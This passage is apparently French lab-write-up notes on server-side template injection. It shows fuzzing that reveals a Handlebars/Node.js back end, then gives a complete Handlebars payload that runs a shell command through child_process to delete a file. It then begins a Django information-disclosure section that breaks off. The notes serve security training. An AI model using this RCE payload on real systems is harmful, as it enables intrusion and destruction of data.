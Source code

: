 >Location: /?message=Unfortunately this product is out of stock
>...
>GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2


Fuzzing sur le message : 

>GET /?message=${{<%[%'"}}%\

On obtient une erreur révélant le back-end : 

>/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
            throw new Error(str);
>...
>Node.js v19.8.1


Voir : http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

Payload final à encoder et à mettre dans le paramètre : 

    wrtz{{#with "s" as |string|}}
        {{#with "e"}}
            {{#with split as |conslist|}}
                {{this.pop}}
                {{this.push (lookup string.sub "constructor")}}
                {{this.pop}}
                {{#with string.split as |codelist|}}
                    {{this.pop}}
                    {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                    {{this.pop}}
                    {{#each conslist}}
                        {{#with (string.sub.apply 0 codelist)}}
                            {{this}}
                        {{/with}}
                    {{/each}}
                {{/with}}
            {{/with}}
        {{/with}}
    {{/with}}
    

### Server-side template injection with information disclosure via user-supplied objects

Chaque produit a une fonctionnalité "Edit template" et cela permet de remarquer que le site utilise des templates de la forme {{XXX}}

En provoquant une erreur dans un template on obtient le type de back-end : 

>Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, 
>...

Voir : https://docs.djangoproject.com/en/5.0/ref/settings/#secret-key 

Payloads : 
